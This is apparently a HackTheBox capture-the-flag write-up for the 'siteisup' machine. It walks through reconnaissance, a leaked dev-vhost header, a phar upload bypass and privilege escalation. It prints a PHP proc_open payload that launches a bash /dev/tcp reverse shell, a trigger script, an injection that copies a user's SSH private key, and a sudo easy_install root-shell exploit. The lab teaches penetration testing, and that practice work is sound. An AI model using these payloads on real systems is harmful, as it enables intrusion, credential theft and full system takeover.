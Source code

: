 Initial Nmap Scan

```bash
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
Accessing siteisup.htb @ port 80

Exploring Local Git dir

```bash
Git branch -a
Git log main
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

git show 8812785e31c879261050e72e20f298ae8c43b565
commit 8812785e31c879261050e72e20f298ae8c43b565
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 16:38:54 2021 +0200

    New technique in header to protect our dev vhost.

diff --git a/.htaccess b/.htaccess
index 44ff240..b317ab5 100644
--- a/.htaccess
+++ b/.htaccess
@@ -2,3 +2,4 @@ SetEnvIfNoCase Special-Dev "only4dev" Required-Header
 Order Deny,Allow
 Deny from All
 Allow from env=Required-Header

```

Found another domain dev.siteisup.htb source code and another juicey information to access the domain 
It only access for developers Using coustom header "Special-Dev: only4dev"

Accessing dev.siteisup.htb

**FootHold**

Exploiting upload vulnerability and gain the shell but there has some fillters using to prevent to upload malicious file. we have only one way to upload a php file to gain code execution which is uploading a injected php code as phar file. Their is an another problem to gain shell the normal php shell command functions are disabled expect "proc_open" we get that info from "phpinfo" page 

Exploit using proc_open funtion

Reference [http://www.navioo.com/php/docs/function.proc-open.php](http://www.navioo.com/php/docs/function.proc-open.php)


Payload 

```php
<?php

$descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("file", "/tmp/error-output.txt", "a")
);
$process = proc_open("cat", $descriptorspec, $pipes);
if (is_resource($process)) {

  fwrite($pipes[0], 'echo "bash -i >& /dev/tcp/ip/port 0>&1 " > /tmp/shell.sh | chmod 777 /tmp/shell.sh | sh /tmp/shell.sh');
   /* fwrite writes to stdin, 'cat' will immediately write the data from stdin
   * to stdout and blocks, when the stdout buffer is full. Then it will not
   * continue reading from stdin and php will block here.
   */
  fclose($pipes[0]);
  while (!feof($pipes[1])) {
      $out .= fgets($pipes[1], 1024);
  }
  fclose($pipes[1]);
  $return_value = proc_close($process);
}
?>
```

My coustom python script for trigger the payload

req.py
```python
import requests
import re

header = {"Special-Dev": "only4dev"}
r = requests.get("http://dev.siteisup.htb/uploads/",headers=header)
md5 = re.findall(r'(?i)(?<![a-z0-9])[a-f0-9]{32}(?![a-z0-9])',r.text)

file_get = requests.get("http://dev.siteisup.htb/uploads/"+md5[1]+"/test.phar",headers=header)
print(file_get.text)

```

Escalating more privileged user

**www-data to user developer**

Home dir of the user developer has a coustom binary called siteisup which belongs with to a python script called siteisup_script.py and the binary has the setuid permission . Just run the binary and inject python system codes

Paylod for getting the developer ssh Key

```python
__import__("os")os.system("cat /home/developer/.ssh/id_rsa > /tmp/key")
```
**Privilege Escalation**

There is a Binary called  easy_install which has the permission running as superuser(Sudo)

Exploit 

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```
Reference [GtfoBin](https://gtfobins.github.io/gtfobins/easy_install/)



